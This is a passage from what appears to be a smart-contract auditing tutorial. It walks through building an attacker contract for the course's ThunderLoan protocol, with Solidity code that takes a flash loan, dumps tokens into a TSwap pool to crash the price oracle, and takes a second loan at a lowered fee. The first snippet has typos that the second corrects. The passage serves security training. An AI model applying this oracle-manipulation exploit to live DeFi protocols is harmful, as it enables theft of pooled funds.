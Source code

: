 The function call triggered in our receiver, by the flashloan execution, necessitates that our receiver contract contains an executeOperation function. It's within this function that we need to perform all of our actions with the loan. We're going to need to:

- swap borrowed TokenA for WETH
- Take out a second loan to compare fees to

Because we're calling two loans, our executeOperation function is going to be called twice. We can prevent issues by creating a mutex lock for the function. Let's also create variables with which to assign the two fees we generate.

```js
bool attacked;
uint256 feeOne;
uint256 feeTwo;
...
function executeOperation(
    address token,
    uint256 amount,
    uint256 fee,
    address,/*initiator*/
    bytes calldata /*params*/
) external returns(bool)
{
    if(!attacked){
        feeOne = fee;
        attacked = true;
        uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
        IERC20(token).approve((address(tswapPool), 50e18));
        // Tanks the price:
        tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block,timestamp);
    } else {
        // calculate the fee and repay
    }
    return true;
}

```

Already our executeOperation function is getting complicated! We're acquiring the amount of WETH to swap for through the `getOutputAmountBasedOnInput` function and ultimately performing the swap for this amount, in exchange for our 50e18 poolTokens. This swap is going to drastically affect the price of WETH/tokenA on TSwap.

Time to add our second flash loan and determine how the fee is affected. This loan will be the exact same.

```js
if(!attacked){
    feeOne = fee;
    attacked = true;
    uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
    IERC20(token).approve(address(tswapPool), 50e18);
    // Tanks the price:
    tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);
    // Takes second identical flash loan
    thunderLoan.flashloan(address(this), IERC20(token), amount, "");
    // repay
} else{
    // calculate the fee and repay
    feeTwo = fee;
}
return true;
```
